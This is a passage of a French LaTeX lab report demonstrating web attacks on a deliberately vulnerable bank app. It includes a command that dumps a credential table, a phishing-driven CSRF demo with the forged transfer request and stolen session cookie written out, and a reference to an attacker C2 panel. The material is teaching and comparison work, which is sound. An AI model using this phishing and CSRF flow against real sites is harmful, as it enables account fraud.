  
\includegraphics[width=\linewidth]{photos/db-passwords-hash.png}
  \caption{bank\_secure — hachage bcrypt}
\end{subfigure}
\caption{Démo 6 — Comparaison du stockage des mots de passe}
\end{figure}

La commande exécutée en direct :
\begin{lstlisting}[language=bash]
# Version vulnerable
docker exec p03-mysql mysql -uroot -prootpass \
  -e "SELECT username, password FROM bank_vuln.users;"

# Version securisee
docker exec p03-mysql mysql -uroot -prootpass \
  -e "SELECT username, password_hash FROM bank_secure.users;"
\end{lstlisting}

% -------- DÉMO 7 --------
\section{Démo 7 — CSRF via email de phishing}

\begin{demobox}[CSRF en deux étapes]
\textbf{Faille} : \texttt{transfer.php} accepte les paramètres GET sans token CSRF. \\
\textbf{Mécanique} : le navigateur d'Alice envoie automatiquement son cookie lors d'une navigation GET vers \texttt{vuln.bank.local}.
\end{demobox}

\subsection*{Étape 1 — Alice est connectée sur vuln.bank.local}

Alice se connecte normalement. Elle est sur son dashboard — 12\,450~€.

\subsection*{Étape 2 — Alice reçoit l'email piégé}

\begin{figure}[H]
\centering

\includegraphics[width=0.85\linewidth]{photos/csrf-email-phishing.png}
\caption{Email de phishing simulé — le lien mène à la fausse page CaptusBank}
\end{figure}

L'email, présenté sur \http{evil.attacker.lab:8080/csrf-email.html}, imite parfaitement un email de sécurité CaptusBank. Il alerte Alice d'un virement suspect de 500~€ et l'invite à cliquer pour bloquer la fraude.

\subsection*{Étape 3 — Alice clique sur la fausse page bancaire}

\begin{figure}[H]
\centering

\includegraphics[width=0.85\linewidth]{photos/csrf-page-banque-fake.png}
\caption{Fausse page CaptusBank — le bouton déclenche en réalité un virement CSRF}
\end{figure}

Alice arrive sur \http{evil.attacker.lab:8080/csrf-mail.html}. La page reproduit fidèlement le design de la banque et montre les détails d'un \og virement suspect \fg. Alice clique \og Bloquer et sécuriser mon compte \fg.

Son navigateur envoie :
\begin{center}
\small\texttt{GET http://vuln.bank.local:8080/transfer.php?to\_iban=FR763000...0042\&amount=500}\\
\texttt{Cookie: PHPSESSID=<session d'Alice>}
\end{center}

\subsection*{Étape 4 — Le virement a été exécuté}

\begin{figure}[H]
\centering

\includegraphics[width=0.7\linewidth]{photos/csrf-solde-alice-apres.png}
\caption{Dashboard d'Alice après le CSRF — 500~€ débités sans confirmation}
\end{figure}

Alice n'a saisi aucun mot de passe, validé aucun formulaire. Elle a simplement cliqué un bouton sur un site tiers.

% -------- DÉMO 8 --------
\section{Démo 8 — Information Disclosure}

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/x-powered-by-vuln.png}
  \caption{X-Powered-By présent (app vulnérable)}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/x-powered-by-absent-secure.png}
  \caption{Header absent (app sécurisée)}
\end{subfigure}
\caption{Démo 8 — Comparaison des en-têtes HTTP}
\end{figure}

% ============================================================
\chapter{Dashboard de l'attaquant}
% ============================================================

Le serveur \http{evil.attacker.lab:8080} héberge un panneau de contrôle (C2) affichant en temps réel les sessions interceptées.

\begin{figure}[H]
\centering
